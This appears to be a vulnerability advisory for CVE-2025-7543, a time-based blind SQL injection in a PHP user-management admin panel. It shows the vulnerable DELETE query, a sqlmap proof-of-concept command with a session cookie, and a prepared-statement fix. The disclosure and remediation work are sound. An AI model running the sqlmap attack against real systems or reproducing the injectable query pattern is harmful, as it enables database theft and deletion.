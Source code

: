 # 📌 Time-Based SQL Injection in manage-users.php of User Registration & Login and User Management System With Admin Panel <= v3.3


**👨‍💻 BUG Author:**  

### 4m3rr0r
 ** CVE-2025-7543 **
---

## 📦 Product Information

- **Vendor Homepage:** [https://phpgurukul.com](https://phpgurukul.com)  
- **Software Link:** [https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/](https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/)  
- **Affected Version:** <= v3.3  
- **BUG Author:** 4m3rr0r  
 

---

## 🛠 Vulnerability Details

### 🧨 Vulnerability Type

**SQL Injection** (Time-Based Blind)  
**CWE ID:** [CWE-89](https://cwe.mitre.org/data/definitions/89.html)

---

### 🧬 Root Cause

The vulnerable code directly interpolates unvalidated user input (`$_GET['id']`) into a SQL query without using prepared statements, leading to SQL injection.

```php
$adminid=$_GET['id'];
$msg=mysqli_query($con,"delete from users where id='$adminid'");
```

---

### ⚠️ Impact

An authenticated attacker can exploit the `id` parameter in `manage-users.php` to:

- Enumerate the database
- Dump sensitive data (users, passwords)
- Delete arbitrary users
- Escalate privileges (via UNION SELECT or stacked queries)

---

### 📋 Description

The application does not sanitize the `id` parameter in the admin panel (`manage-users.php`). This allows attackers to inject arbitrary SQL queries using time-based blind techniques to bypass filters and extract information from the database.

---

### 🔬 Proof of Concept

A logged-in attacker can run the following SQLMap command:

```bash
sqlmap -u "http://192.168.16.109/loginsystem/admin/manage-users.php?id=1" \
--cookie="PHPSESSID=pakmg0q2gnmjag2514g76fdmtd" \
--risk=3 --level=5 --dbs
```

![sqlmap](./Images/2025-07-11_01-53.png)

---

## 🛡 Suggested Remediation

Replace dynamic SQL queries with parameterized statements. Example using `mysqli_prepare`:

```php
$stmt = $con->prepare("DELETE FROM users WHERE id = ?");
$stmt->bind_param("i", $adminid);
$stmt->execute();
```

---

## 🔐 Security Recommendations

- Use prepared statements or ORM (Object Relational Mapper)
- Enforce strict input validation (e.g., numeric only for `id`)
- Apply least privilege principle to DB user accounts
- Enable logging, monitoring, and regular code reviews

---

## 📚 References

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)

